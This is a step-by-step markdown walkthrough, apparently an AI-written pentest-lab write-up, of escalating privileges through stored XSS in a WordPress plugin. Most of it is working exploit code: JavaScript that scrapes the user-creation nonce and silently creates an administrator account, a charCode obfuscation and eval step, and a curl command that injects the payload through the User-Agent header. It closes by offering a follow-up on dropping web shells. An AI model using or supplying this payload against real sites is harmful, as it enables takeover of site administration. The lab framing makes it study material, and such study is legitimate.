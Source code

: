 
# Privilege Escalation via Stored XSS in WordPress

## 🧩 Scenario Overview

- **Target Website:** http://pentestlab.local
- **Vulnerability:** Stored XSS in WordPress plugin (e.g., "SiteStats")
- **Goal:** Escalate privileges by creating a new admin user
- **Techniques Used:**
  - XSS + DOM access
  - CSRF bypass via nonce capture
  - JavaScript payload injection
  - Cookie security evaluation

---

## 🔍 Recon & Initial XSS Discovery

1. Discovered a **Stored XSS** vulnerability via input field in the “SiteStats” plugin.
2. Payload successfully executed when **admin** user views the plugin dashboard.

---

## 🍪 Step 1: Check for Cookie Theft Possibility

- Inspect cookies after admin login:
  - Navigate to `Dev Tools > Storage > Cookies > http://pentestlab.local`
  - Observed that session cookies are marked `HttpOnly` and `Secure`.
- ✅ Cookies **cannot** be stolen via JavaScript due to security flags.

---

## 🛠️ Step 2: Use XSS for Admin Account Creation

Instead of cookie theft, use JavaScript to:

- **Fetch WordPress nonce** from `/wp-admin/user-new.php`
- **POST request** to create a new admin user

---

## 🧬 Step 3: JavaScript Payload Breakdown

### 📌 Fetch Admin Nonce
```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
````

### 👤 Create Admin User

```js
var params = "action=createuser&_wpnonce_create-user=" + nonce + 
"&user_login=h4x0r&email=h4x0r@pentestmail.com&pass1=H4x0rPass123&pass2=H4x0rPass123&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

---

## 🧹 Step 4: Minify and Encode the Payload

1. Use [jscompress.com](https://jscompress.com/) to minify the code.
2. Encode payload using this function:

```js
function encode_to_javascript(str) {
    let output = '';
    for (let i = 0; i < str.length; i++) {
        output += str.charCodeAt(i);
        if (i !== str.length - 1) output += ',';
    }
    return output;
}
```

3. Decode and run using:
```js
eval(String.fromCharCode(/* comma-separated values here */));
```

---

## 🎯 Step 5: Deliver Payload via curl + Burp

```bash
curl -i http://pentestlab.local \
-H 'User-Agent: <script>eval(String.fromCharCode(101,120,...));</script>' \
--proxy 127.0.0.1:8080
```

- Send this request with Burp Intercept ON to review and forward.
- Payload is now stored in the database.

---

## ✅ Step 6: Trigger Payload Execution

1. Login as `admin` user
2. Navigate to `SiteStats > Dashboard`
3. Script is executed silently
4. Confirm new admin user in `Users` section:
    - Username: `h4x0r`
    - Role: `Administrator`

---

## 🔚 Conclusion

This XSS vulnerability allowed privilege escalation by:

- Bypassing CSRF protections via nonce extraction
- Leveraging the authenticated session of the admin
- Creating a persistent admin account for full WordPress control

---

> 🔐 **Note:** Always validate user input and apply HttpOnly & Secure cookie flags. Avoid exposing sensitive pages to JavaScript-based scraping without proper access controls.

```

Let me know if you’d like this turned into a printable PDF or want a follow-up section on dropping web shells via custom plugins.
```
